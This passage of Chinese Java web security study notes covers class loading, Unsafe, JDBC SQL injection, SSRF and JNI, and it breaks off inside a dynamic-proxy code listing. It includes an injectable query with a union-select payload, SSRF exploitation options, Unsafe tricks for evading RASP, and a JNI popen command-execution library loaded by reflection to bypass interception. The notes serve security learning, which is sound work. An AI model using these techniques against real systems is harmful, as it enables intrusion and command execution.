



---
tags:
  - Java
  - Web
  - Security
comments: true
---

# 1 Java 基础

!!! note
    本文档主要介绍 Java Web 安全相关知识归纳总结，[学习路线参考](https://www.javasec.org/){target="_blank"}

## 1.1 ClassLoader 机制

JVM 架构图:

Java 类均要经过 ClassLoader 加载后才能运行，AppClassLoader 是默认的类加载器，如果类加载时我们不指定类加载器的情况下，默认会使用 AppClassLoader 加载类，`ClassLoader.getSystemClassLoader()` 返回的系统类加载器也是 AppClassLoader。


### Java 类加载方式

1. **隐式加载**：当程序创建对象实例或使用 `ClassName.MethodName()` 时，如果该对象的类还没有被加载，JVM 会自动调用类加载器加载该类。
2. **显式加载**：通过 Java 反射机制或 ClassLoader 来动态加载类。

???+ Example

    ```java
    // 反射加载TestHelloWorld示例
    Class.forName("xxx.TestHelloWorld");

    // ClassLoader加载TestHelloWorld示例
    this.getClass().getClassLoader().loadClass("xxx.TestHelloWorld");
    ```

`Class.forName("类名")` 默认会初始化被加载类的静态属性和方法，如果不希望初始化类可以使用 `Class.forName("类名", false, 类加载器)`，而 `ClassLoader.loadClass` 默认不会初始化类方法。
## 1.3 sun.misc.Unsafe
`sun.misc.Unsafe`是Java底层API(仅限Java内部使用,利用时可通过反射调用)提供的一个神奇的Java类，Unsafe提供了非常底层的内存、CAS、线程调度、类、对象等操作。

### 获取Unsafe对象
Unsafe是Java内部API，外部是禁止调用的，在编译Java类时如果检测到引用了Unsafe类也会有禁止使用的警告：`Unsafe是内部专用 API, 可能会在未来发行版中删除`。
可以使用反射的方式去获取Unsafe类实例:

???+ example

    === "反射创建Unsafe实例"

        ```java
        // 获取Unsafe无参构造方法
        Constructor constructor = Unsafe.class.getDeclaredConstructor();

        // 修改构造方法访问权限
        constructor.setAccessible(true);

        // 反射创建Unsafe类实例，等价于 Unsafe unsafe1 = new Unsafe();
        Unsafe unsafe1 = (Unsafe) constructor.newInstance();
        ```

    === "反射获取成员变量"

        ```java
        // 反射获取Unsafe的theUnsafe成员变量
        Field theUnsafeField = Unsafe.class.getDeclaredField("theUnsafe");

        // 反射设置theUnsafe访问权限
        theUnsafeField.setAccessible(true);

        // 反射获取theUnsafe成员变量值
        Unsafe unsafe = (Unsafe) theUnsafeField.get(null);
        ```

<div id="AllocaInstance"></div>

### allocateInstance无视构造方法创建类实例

???+ example

    ```java
    Classname test = (Classname) unsafe1.allocateInstance(Classname.class);
    ```

Google的GSON库在JSON反序列化的时候就使用这个方式来创建类实例，在渗透测试中也会经常遇到这样的限制，比如RASP限制了`java.io.FileInputStream`类的构造方法导致我们无法读文件或者限制了`UNIXProcess/ProcessImpl`类的构造方法导致我们无法执行本地命令等。

### defineClass直接调用JVM创建类对象

如果ClassLoader被限制，我们可以使用Unsafe的defineClass方法来实现通过字节码向JVM中注册类。
`public native Class defineClass(String var1, byte[] var2, int var3, int var4);`
`public native Class<?> defineClass(String var1, byte[] var2, int var3, int var4, ClassLoader var5, ProtectionDomain var6);`

???+ example

    === "普通方法"

        ```java
        // 使用Unsafe向JVM中注册com.anbai.sec.classloader.TestHelloWorld类
        Class helloWorldClass = unsafe1.defineClass(TEST_CLASS_NAME, TEST_CLASS_BYTES, 0, TEST_CLASS_BYTES.length);
        ```

    === "类加载器和保护域"

        ```java
        // 获取系统的类加载器
        ClassLoader classLoader = ClassLoader.getSystemClassLoader();

        // 创建默认的保护域
        ProtectionDomain domain = new ProtectionDomain(
            new CodeSource(null, (Certificate[]) null), null, classLoader, null
        );

        // 使用Unsafe向JVM中注册com.anbai.sec.classloader.TestHelloWorld类
        Class helloWorldClass = unsafe1.defineClass(
            TEST_CLASS_NAME, TEST_CLASS_BYTES, 0, TEST_CLASS_BYTES.length, classLoader, domain
        );
        ```
    
    Unsafe还可以通过defineAnonymousClass方法创建内部类，此处暂不演示

!!! warning 

    这个实例仅适用于Java 8以前的版本，如在Java 8中使用应调用需要传类加载器和保护域的方法。<br/>
    Java 11开始Unsafe类移除了`defineClass`方法(`defineAnonymousClass`方法还在)。

## 1.6 JDBC

### JDBC SQL 注入

本章节只讨论基于 JDBC 查询的 SQL 注入，暂不讨论基于 ORM 实现的框架注入，也不会过多的讨论注入的深入用法、函数等

#### SQL 注入原理

Java 代码片段如下:

??? note "Code"

    ```java
    // 获取用户传入的用户名
    String user = request.getParameter("user");

    // 定义最终执行的SQL语句，这里会将用户从请求中传入的host字符串拼接到最终的SQL
    // 语句当中，从而导致了SQL注入漏洞。
    String sql = "select host,user from mysql.user where user = '" + user + "'";

    // 创建预编译对象
    PreparedStatement pstt = connection.prepareStatement(sql);

    // 执行SQL语句并获取返回结果对象
    ResultSet rs = pstt.executeQuery();
    ```

如上示例程序，我们可以传入 `root' union select 1;--+` 去闭合 SQL 语句，实现注入

具体利用方式 PHP SQL 注入一致，此处不做介绍。

#### SQL 注入防御

通常情况下我们可以使用以下方式来防御 SQL 注入攻击：

1. 转义用户输入的特殊字符或对用户输入的数据进行过滤。
2. 限制用户传入的数据类型，如预期传入的是数字，那么使用 `Integer.parseInt()` 转换为数字。
3. 使用 `PreparedStatement` 预编译 SQL 语句，预编译的 SQL 语句会在执行前进行编译，从而避免了 SQL 注入攻击。

#### PreparedStatement SQL 预编译查询

将上面存在注入的 Java 代码改为 ? 占位的方式即可实现 SQL 预编译查询。
示例代码如下：

??? note "Code"

    ```java
    // 获取用户传入的用户名
    String id = request.getParameter("id");

    // 定义最终执行的SQL语句，这里会将用户从请求中传入的host字符串拼接到最终的SQL
    String sql = "select id, username from sys_user where id =? ";

    // 创建预编译对象
    PreparedStatement pstt = connection.prepareStatement(sql);

    // 设置参数
    pstt.setObject(1, id);

    // 执行SQL语句并获取返回结果对象
    ResultSet rs = pstt.executeQuery();
    ```

#### JDBC 预编译

JDBC 预编译查询分为客户端预编译和服务器端预编译，对应的 URL 配置项是 `:useServerPrepStmts`，当 `useServerPrepStmts` 为 false 时使用客户端(驱动包内完成 SQL 转义)预编译，`useServerPrepStmts` 为 true 时使用数据库服务器端预编译。

??? note "Code"

    ```java
    String sql = "select host,user from mysql.user where user = ? ";
    PreparedStatement pstt = connection.prepareStatement(sql);
    pstt.setObject(1, user);
    ```

    === "服务器端预编译"

        

    === "客户端预编译"

        

对应的 Mysql 客户端驱动包预编译代码在 com.mysql.jdbc.PreparedStatement 类的 setString 方法，如下：


预编译前的值为 root', 预编译后的值为'root\''

## 1.7 URLConnection

Java 抽象出来了一个 `URLConnection` 类，它用来表示应用程序以及与 URL 建立通信连接的所有类的超类，通过 URL 类中的 `openConnection` 方法获取到 `URLConnection` 的类对象。

`URLConnection` 支持的协议可以在 `sun.net.www.protocol` 包下找到(jdk_17.0.11)
{width=30%}

其中每个协议都有一个 Handle, Handle 定义了这个协议如何去打开一个连接。

使用 URL 发起一个简单的请求:

??? note "Code"

    ```java
    public class URLConnectionDemo {

        public static void main(String[] args) throws IOException {
            URL url = new URL("https://www.baidu.com");

            // 打开和url之间的连接
            URLConnection connection = url.openConnection();

            // 设置请求参数
            connection.setRequestProperty("user-agent", "javasec");
            connection.setConnectTimeout(1000);
            connection.setReadTimeout(1000);
            ...

            // 建立实际连接
            connection.connect();

            // 获取响应头字段信息列表
            connection.getHeaderFields();

            // 获取URL响应内容
            StringBuilder response = new StringBuilder();
            BufferedReader in = new BufferedReader(
                    new InputStreamReader(connection.getInputStream()));
            String line;

            while ((line = in.readLine()) != null) {
                response.append("/n").append(line);
            }

            System.out.print(response.toString());
        }
    }
    ```

### SSRF

> SSRF(Server-side Request Forge, 服务端请求伪造)。 由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务。

服务端提供了可以从其他服务器获取资源的功能，然而并没有对用户的输入以及发起请求的 url 进行过滤&限制，形成了 SSRF 漏洞。
通常 ssrf 容易出现的功能点如下面几种场景:

- 抓取用户输入图片的地址并且本地化存储
- 从远程服务器请求资源
- 对外发起网络请求
- ...

Java 中 ssrf 漏洞对使用不同类发起的 url 请求有所区别，如果是 URLConnection|URL 发起的请求，那么对于上文中所提到的所有 protocol 都支持，但是如果经过二次包装或者其他的一些类发出的请求，比如:

- HttpURLConnection
- HttpClient
- Request
- okhttp
- ...

那么只支持发起 http|https 协议，否则会抛出异常。
如果传入 url 端口存在，则会返回网页源码，如果端口提供非 web 服务，则会爆出 `Invalid Http response` 或 `Connection reset` 异常，通过对异常的捕获可以探测内网所有的端口服务。

java 中默认对(http|https)做了一些事情，比如:

<div class="annotate" markdown>

- 默认启用了透明 NTLM 认证(1)
- 默认跟随跳转

</div>

1. [《Ghidra 从 XXE 到 RCE》](https://xlab.tencent.com/cn/2019/03/18/ghidra-from-xxe-to-rce/){target="_blank"} (To be read)

**默认跟随跳转** 其中有一个坑点


它会对跟随跳转的 url 进行协议判断，所以 Java 的 SSRF 漏洞利用方式整体比较有限:

- 利用 file 协议读取文件内容（仅限使用 URLConnection|URL 发起的请求）
- 利用 http 进行内网 web 服务端口探测
- 利用 http 进行内网非 web 服务端口探测(如果将异常抛出来的情况下)
- 利用 http 进行 ntlmrelay 攻击(仅限 HttpURLConnection 或者二次包装 HttpURLConnection 并未复写 AuthenticationInfo 方法的对象)

## 1.8 JNI 安全基础

Java Native Interface (JNI) 是 Java 与本地代码交互的一种技术。Java 语言是基于 C 语言实现的，Java 底层的很多 API 都是通过 JNI 来实现的。通过 JNI 接口 C/C++ 和 Java 可以互相调用(存在跨平台问题)。Java 可以通过 JNI 调用来弥补语言自身的不足(代码安全性、内存操作等)。

#### JNI-定义 native 方法

首先在 Java 中如果想要调用 `native` 方法, 那么需要在类中先定义一个 `native` 方法。

???+ Example

    ```java
    package cc.colemak;

    public class TestJNI {
        public static native String exec(String cmd);
    }
    ```

如上示例代码，我们使用 `native` 关键字定义一个类似于接口的方法

#### JNI-生成类头文件

如上，我们已经编写好了 TestJNI.java，现在我们需要编译并生成 c 语言头文件。

`javac -cp . TestJNI.java -h .`

编译完成后会在当前目录下生成 `TestJNI.class` 和 `cc_colemak_TestJNI.h`。

??? note "**cc_colemak_TestJNI.h**"

    ```c
    /* DO NOT EDIT THIS FILE - it is machine generated */
    #include <jni.h>
    /* Header for class cc_colemak_TestJNI */

    #ifndef _Included_cc_colemak_TestJNI
    #define _Included_cc_colemak_TestJNI
    #ifdef __cplusplus
    extern "C" {
    #endif
    /*
    * Class:     cc_colemak_TestJNI
    * Method:    exec
    * Signature: (Ljava/lang/String;)Ljava/lang/String;
    */
    JNIEXPORT jstring JNICALL Java_cc_colemak_TestJNI_exec
    (JNIEnv *, jclass, jstring);

    #ifdef __cplusplus
    }
    #endif
    #endif
    ```

#### JNI-基础数据类型
需要特别注意的是 Java 和 JNI 定义的类型需要转换(1)才能相互使用
{ .annote }

1. [jni 中 java 与原生代码通信规则](https://blog.csdn.net/qq_25722767/article/details/52557235){target="_blank"}

参考如下类型对照表:

| Java 类型 | JNI 类型 | C/C++类型      | 大小         |
| :-------- | :------- | :------------- | :----------- |
| Boolean   | Jblloean | unsigned char  | 无符号 8 位  |
| Byte      | Jbyte    | char           | 有符号 8 位  |
| Char      | Jchar    | unsigned short | 无符号 16 位 |
| Short     | Jshort   | short          | 有符号 16 位 |
| Int       | Jint     | int            | 有符号 32 位 |
| Long      | Jlong    | long long      | 有符号 64 位 |
| Float     | Jfloat   | float          | 32 位        |
| Double    | Jdouble  | double         | 64 位        |

#### JNI-编写C/C++本地命令执行实现

接下来使用C/C++编写函数的最终实现代码。

??? note "**cc_colemak_TestJNI.cpp**"

    ```cpp
    #include <iostream>
    #include <stdlib.h>
    #include <cstring>
    #include <string>
    #include "cc_colemak_TestJNI.h"

    using namespace std;

    JNIEXPORT jstring

    JNICALL Java_cc_colemak_TestJNI_exec
            (JNIEnv *env, jclass jclass, jstring str) {

        if (str != NULL) {
            jboolean jsCopy;
            // 将jstring参数转成char指针
            const char *cmd = env->GetStringUTFChars(str, &jsCopy);

            // 使用popen函数执行系统命令
            FILE *fd  = popen(cmd, "r");

            if (fd != NULL) {
                // 返回结果字符串
                string result;

                // 定义字符串数组
                char buf[128];

                // 读取popen函数的执行结果
                while (fgets(buf, sizeof(buf), fd) != NULL) {
                    // 拼接读取到的结果到result
                    result +=buf;
                }

                // 关闭popen
                pclose(fd);

                // 返回命令执行结果给Java
                return env->NewStringUTF(result.c_str());
            }

        }

        return NULL;
    }
    ```

- Linux编译：
  ```g++ -fPIC -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" -shared -o libcmd.jnilib cc_colemak_TestJNI.cpp```
- Windows编译：
  ```g++ -I"%JAVA_HOME%\include" -I"%JAVA_HOME%\include\win32" -shared -o cmd.dll cc_colemak_TestJNI.cpp```

编译参考[Java Programming Tutorial Java Native Interface (JNI)](https://www3.ntu.edu.sg/home/ehchua/programming/java/JavaNativeInterface.html){target="_blank"}

??? node "cc.colemak.TestJNIcmd"

    ```java
    package cc.colemak;

    import java.io.File;
    import java.lang.reflect.Method;

    public class TestJNIcmd {

        private static final String COMMAND_CLASS_NAME = "cc.colemak.TestJNI";
        /**
         * JDK8u191 编译的cc.colemak.TestJNI 类字节码
         */
        private static final byte[] COMMAND_CLASS_BYTES = new byte[]{
                -54,-2,-70,-66,0,0,0,52,0,15,10,0,3,0,12,7,0,13,7,0,14,1,0,6,60,105,110,105,116,62,1,0,3,40,41,86,1,0,4,67,111,100,101,1,0,15,76,105,110,101,78,117,109,98,101,114,84,97,98,108,101,1,0,4,101,120,101,99,1,0,38,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,1,0,10,83,111,117,114,99,101,70,105,108,101,1,0,12,84,101,115,116,74,78,73,46,106,97,118,97,12,0,4,0,5,1,0,18,99,99,47,99,111,108,101,109,97,107,47,84,101,115,116,74,78,73,1,0,16,106,97,118,97,47,108,97,110,103,47,79,98,106,101,99,116,0,33,0,2,0,3,0,0,0,0,0,2,0,1,0,4,0,5,0,1,0,6,0,0,0,29,0,1,0,1,0,0,0,5,42,-73,0,1,-79,0,0,0,1,0,7,0,0,0,6,0,1,0,0,0,3,1,9,0,8,0,9,0,0,0,1,0,10,0,0,0,2,0,11
        };

        public static void main(String[] args) {
            String cmd = "ipconfig";// 定于需要执行的cmd

            try {
                ClassLoader loader = new ClassLoader(TestJNIcmd.class.getClassLoader()) {
                    @Override
                    protected Class<?> findClass(String name) throws ClassNotFoundException {
                        try {
                            return super.findClass(name);
                        } catch (ClassNotFoundException e) {
                            return defineClass(COMMAND_CLASS_NAME, COMMAND_CLASS_BYTES, 0, COMMAND_CLASS_BYTES.length);
                        }
                    }
                };

                // 测试时候换成自己编译好的lib路径
                File libPath = new File("cmd.dll");

                // load命令执行类
                Class commandClass = loader.loadClass("cc.colemak.TestJNI");

                // 可以用System.load也加载lib也可以用反射ClassLoader加载,如果loadLibrary0
                // 也被拦截了可以换java.lang.ClassLoader$NativeLibrary类的load方法。
    //		    System.loadLibrary("D:\\work\\java\\TestJNI\\src\\main\\java\\cc\\colemak\\cmd");
                Method loadLibrary0Method = ClassLoader.class.getDeclaredMethod("loadLibrary0", Class.class, File.class);
                loadLibrary0Method.setAccessible(true);
                loadLibrary0Method.invoke(loader, commandClass, libPath);

                String content = (String) commandClass.getMethod("exec", String.class).invoke(null, cmd);
                System.out.println(content);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

    }
    ```

编译运行结果如下：


## 1.9 Java 动态代理

Java反射提供了一种类动态代理机制，可以通过代理接口实现类来完成程序无侵入式扩展。
Java动态代理主要使用场景：

- 统计方法执行所耗时间。
- 在方法执行前后添加日志。
- 检测方法的参数或返回值。
- 方法访问权限控制。
- 方法Mock测试。

### 动态代理API

在java的`java.lang.reflect`包下提供了一个`Proxy`类和一个`InvocationHandler`接口，通过这个类和接口可以生成动态代理类和动态代理对象。
Proxy类中定义的方法如下：

???+ note "code"

    ```java
    public class Proxy implements java.io.Serializable {
        ...
        //获取动态代理处理类对象
        public static InvocationHandler getInvocationHandler(Object proxy)

        //创建动态代理类实例
        public static Object newProxyInstance(ClassLoader loader, Class<?>[] interfaces, InvocationHandler h)

        //创建动态代理类
        public static Class<?> getProxyClass(ClassLoader loader, Class<?>... interfaces)

        //检测某个类是否是动态代理类
        public static boolean isProxyClass(Class<?> cl)

        //向指定的类加载器中定义一个类对象
        private static native Class defineClass0(ClassLoader loader, String name, byte[] b, int off, int len)
    }

`java.lang.reflect.InvocationHandler`接口用于调用`Proxy`类生成的代理类方法，该类只有一个`invoke`方法。

???+ note "code"

    ```java
    public interface InvocationHandler {
        //代理类调用方法时会调用该方法
       Object  invoke(Object  proxy, Method  method, Object [] args) throws Throwable 
    }
    ```

    参考官方文档：[InvocationHandler](https://docs.oracle.com/javase/8/docs/api/java/lang/reflect/InvocationHandler.html){target="_blank"}

### 使用java.lang.reflect.Proxy动态创建类对象

??? note "code"

    ```java
    package cc.dynproxy;

    import java.lang.reflect.Method;
    import java.lang.reflect.Proxy;

    import static cc.colemak.TestJNIcmd.COMMAND_CLASS_BYTES;
    import static cc.colemak.TestJNIcmd.COMMAND_CLASS_NAME;

    public class ProxyDefineClassTest {

        public static void main(String[] args) {
            // 获取系统的类加载器，可以根据具体情况换成一个存在的类加载器
            ClassLoader classLoader = ClassLoader.getSystemClassLoader();

            try {
                // 反射java.lang.reflect.Proxy类获取其中的defineClass0方法
                Method method = Proxy.class.getDeclaredMethod("defineClass0", new Class[]{
                        ClassLoader.class, String.class, byte[].class, int.class, int.class
                });

                // 修改方法的访问权限
                method.setAccessible(true);

                // 反射调用java.lang.reflect.Proxy.defineClass0()方法，动态向JVM注册
                // com.anbai.sec.classloader.TestHelloWorld类对象
                Class helloWorldClass = (Class) method.invoke(null, new Object[]{
                        classLoader, COMMAND_CLASS_NAME, COMMAND_CLASS_BYTES, 0, COMMAND_CLASS_BYTES.length
                });

                // 输出TestHelloWorld类对象
                System.out.println(helloWorldClass);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```
    
    运行结果

    {width=70%}

### 创建代理类实例

???+ example

    === "Proxy.newProxyInstance"

        ```java
        // 创建UnixFileSystem类实例
        FileSystem fileSystem = new UnixFileSystem();

        // 使用JDK动态代理生成FileSystem动态代理类实例
        FileSystem proxyInstance = (FileSystem) Proxy.newProxyInstance(
            FileSystem.class.getClassLoader(),// 指定动态代理类的类加载器
            new Class[]{FileSystem.class}, // 定义动态代理生成的类实现的接口
            new JDKInvocationHandler(fileSystem)// 动态代理处理类
        );
        ```

    === "Proxy.getProxyClass反射："

        ```java
        // 创建UnixFileSystem类实例
        FileSystem fileSystem = new UnixFileSystem();

        // 创建动态代理处理类
        InvocationHandler handler = new JDKInvocationHandler(fileSystem);

        // 通过指定类加载器、类实现的接口数组生成一个动态代理类
        Class proxyClass = Proxy.getProxyClass(
            FileSystem.class.getClassLoader(),// 指定动态代理类的类加载器
            new Class[]{FileSystem.class}// 定义动态代理生成的类实现的接口
        );

        // 使用反射获取Proxy类构造器并创建动态代理类实例
        FileSystem proxyInstance = (FileSystem) proxyClass.getConstructor(
            new Class[]{InvocationHandler.class}).newInstance(new Object[]{handler}
        );
        ```

### 动态代理添加方法调用日志

`UnixFileSystem`类实现了`FileSystem`接口，通过JDK动态代理的方式为`FileSystem`接口方法添加日志输出。
???+ note "code"

    === "FileSystem"

        ```java
        package cc.dynproxy;

        import java.io.File;
        import java.io.Serializable;

        public interface FileSystem extends Serializable{
            String[] list(File file);
        }
        ```

    === "UnixFileSystem"

        ```java
        package cc.dynproxy;

        import java.io.File;

        public class UnixFileSystem implements FileSystem {
            public String[] list(File file){
                System.out.println("正在执行[" + this.getClass().getName() + "]类的list方法，参数:[" + file + "]");

                return file.list();
            }
        }
        ```
    
    === "JDKInvocationHandler"

        ```java
        package cc.dynproxy;

        import java.io.Serializable;
        import java.lang.reflect.InvocationHandler;
        import java.lang.reflect.Method;

        public class JDKInvocationHandler implements InvocationHandler, Serializable {
            private final Object target;
            public JDKInvocationHandler(final Object target) {
                this.target = target;
            }

            @Override
            public Object invoke(final Object proxy, final Method method, final Object[] args) throws Throwable {
                if ("toString".equals(method.getName())) {
                    return method.invoke(target, args);
                }
                System.out.println("即将调用["+target.getClass().getName()+"."+method.getName()+"]");
                Object result = method.invoke(target, args);
                System.out.println("完成调用["+target.getClass().getName()+"."+method.getName()+"]");
                return result;
            }
        }
        ```
    
    === "FSProxyTest"

        ```java
        package cc.dynproxy;

        import java.io.File;
        import java.lang.reflect.Proxy;
        import java.util.Arrays;

        public class FSProxyTest {
            public static void main(String[] args) {
                FileSystem fs=new UnixFileSystem();
                FileSystem proxyInstance = (FileSystem) Proxy.newProxyInstance(
                        FileSystem.class.getClassLoader(),// 指定动态代理类的类加载器
                        new Class[]{FileSystem.class}, // 定义动态代理生成的类实现的接口
                        new JDKInvocationHandler(fs)// 动态代理处理类
                );

                System.out.println("动态代理生成的类名:" + proxyInstance.getClass());
                System.out.println("----------------------------------------------------------------------------------------");
                System.out.println("动态代理生成的类名toString:" + proxyInstance.toString());
                System.out.println("----------------------------------------------------------------------------------------");

                // 使用动态代理的方式UnixFileSystem方法
                String[] files = proxyInstance.list(new File("."));

                System.out.println("----------------------------------------------------------------------------------------");
                System.out.println("UnixFileSystem.list方法执行结果:" + Arrays.toString(files));
                System.out.println("----------------------------------------------------------------------------------------");

                boolean isFileSystem     = proxyInstance instanceof FileSystem;
                boolean isUnixFileSystem = proxyInstance instanceof UnixFileSystem;

                System.out.println("动态代理类[" + proxyInstance.getClass() + "]是否是FileSystem类的实例:" + isFileSystem);
                System.out.println("----------------------------------------------------------------------------------------");
                System.out.println("动态代理类[" + proxyInstance.getClass() + "]是否是UnixFileSystem类的实例:" + isUnixFileSystem);
                System.out.println("----------------------------------------------------------------------------------------");
            }
        }
        ```
    
运行结果

{width=70%}

### 动态代理生成的$ProxyXXX类代码分析

java.lang.reflect.Proxy类通过创建一个新的Java类(类名为com.sun.proxy.$ProxyXXX)实现无侵入的类方法代理功能。

动态代理生成出来的类有如下技术细节和特性：

1. 动态代理的必须是接口类，通过动态生成接口实现类来代理接口的方法调用(反射机制)。
2. 动态代理类由`java.lang.reflect.Proxy.ProxyClassFactory`创建。
3. `ProxyClassFactory`调用`sun.misc.ProxyGenerator`类生成该类的字节码，并调用`java.lang.reflect.Proxy.defineClass0()`方法将该类注册到JVM。
4. 该类继承于`java.lang.reflect.Proxy`并实现了需要被代理的接口类，因为`java.lang.reflect.Proxy`类实现了`java.io.Serializable`接口，所以被代理的类支持序列化/反序列化。
5. 该类实现了代理接口类，会通过`ProxyGenerator`动态生成接口类的所有方法，
6. 该类因为实现了代理的接口类，所以当前类是代理的接口类的实例(`proxyInstance instanceof FileSystem`为true)，但不是代理接口类的实现类的实例(`proxyInstance instanceof UnixFileSystem`为false)。
7. 该类方法中包含了被代理的接口类的所有方法，通过调用动态代理处理类(`InvocationHandler`)的invoke方法获取方法执行结果。
8. 该类代理的方式重写了`java.lang.Object`类的`toString`、`hashCode`、`equals`方法。
9. 如果动过动态代理生成了多个动态代理类，新生成的类名中的数字会自增，如`com.sun.proxy.$Proxy0/$Proxy1/$Proxy2`。

??? note "code"

    ```java
    package com.sun.proxy.$Proxy0;

    import java.io.File;
    import java.lang.reflect.InvocationHandler;
    import java.lang.reflect.Method;
    import java.lang.reflect.Proxy;
    import java.lang.reflect.UndeclaredThrowableException;

    public final class $Proxy0 extends Proxy implements FileSystem {

        private static Method m1;

    // 实现的FileSystem接口方法，如果FileSystem里面有多个方法那么在这个类中将从m3开始n个成员变量
        private static Method m3;

        private static Method m0;

        private static Method m2;

        public $Proxy0(InvocationHandler var1) {
            super(var1);
        }

        public final boolean equals(Object var1) {
            try {
                return (Boolean) super.h.invoke(this, m1, new Object[]{var1});
            } catch (RuntimeException | Error var3) {
                throw var3;
            } catch (Throwable var4) {
                throw new UndeclaredThrowableException(var4);
            }
        }

        public final String[] list(File var1) {
            try {
                return (String[]) super.h.invoke(this, m3, new Object[]{var1});
            } catch (RuntimeException | Error var3) {
                throw var3;
            } catch (Throwable var4) {
                throw new UndeclaredThrowableException(var4);
            }
        }

        public final int hashCode() {
            try {
                return (Integer) super.h.invoke(this, m0, (Object[]) null);
            } catch (RuntimeException | Error var2) {
                throw var2;
            } catch (Throwable var3) {
                throw new UndeclaredThrowableException(var3);
            }
        }

        public final String toString() {
            try {
                return (String) super.h.invoke(this, m2, (Object[]) null);
            } catch (RuntimeException | Error var2) {
                throw var2;
            } catch (Throwable var3) {
                throw new UndeclaredThrowableException(var3);
            }
        }

        static {
            try {
                m1 = Class.forName("java.lang.Object").getMethod("equals", Class.forName("java.lang.Object"));
                m3 = Class.forName("cc.dynproxy.FileSystem").getMethod("list", Class.forName("java.io.File"));
                m0 = Class.forName("java.lang.Object").getMethod("hashCode");
                m2 = Class.forName("java.lang.Object").getMethod("toString");
            } catch (NoSuchMethodException var2) {
                throw new NoSuchMethodError(var2.getMessage());
            } catch (ClassNotFoundException var3) {
